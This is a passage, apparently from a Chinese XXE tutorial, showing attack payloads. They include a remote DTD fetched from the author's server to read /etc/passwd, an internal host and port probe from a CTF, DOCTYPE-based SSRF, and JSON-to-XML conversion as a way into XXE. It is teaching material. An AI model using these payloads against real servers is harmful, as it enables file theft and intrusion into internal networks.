 #### **输入时关键字过滤：引用远程DTD**

比如过滤了file协议，那么可以在自己的服务器上建立一个DTD，再远程引用。

```xml
<!DOCTYPE a [
 <!ENTITY % dtd SYSTEM "http://www.hackersb.cn/attack.dtd"> 
%dtd; 
]>
```

其中，attack.dtd的内容为

```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```

注意：内层的实体如果是参数实体，其中的`%`必须进行URL字符实体的替换，即写成`&#x25;`

#### **内网探测**

NJUPT-CTF的一个例子  

```xml
?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "http://192.168.1.8">
 ]>

<user><username>&xxe;</username><password>asd</password></user>
```

还可以探测端口，如果返回显示`Connection Refused`说明端口是关闭的，`Request Failed`等信息说明端口开启。

#### **SSRF**

可以以XXE主机为跳板，攻击内网的主机。就是在URL中加入payload

即使禁止了外部实体引用，SSRF也不会因此消失。可以使用DOCTYPE的方法：

```xml
<!DOCTYPE foo PUBLIC "-//VSR//PENTEST//EN" "http://internal/service?ssrf"
```

#### **某些JSON解析引发XXE**

有些服务器接收的请求格式为JSON。将JSON转换为XML，如果服务器仍然可以解析，则容易出现XXE漏洞。

首先JSON转换为XML，有一些自动转换工具：

```xml
Original JSON
{"search":"name","value":"netspitest"}

XML Conversion
<?xml version="1.0" encoding="UTF-8" ?>
<root>
<search>name</search>
<value>netspitest</value>
</root>
```
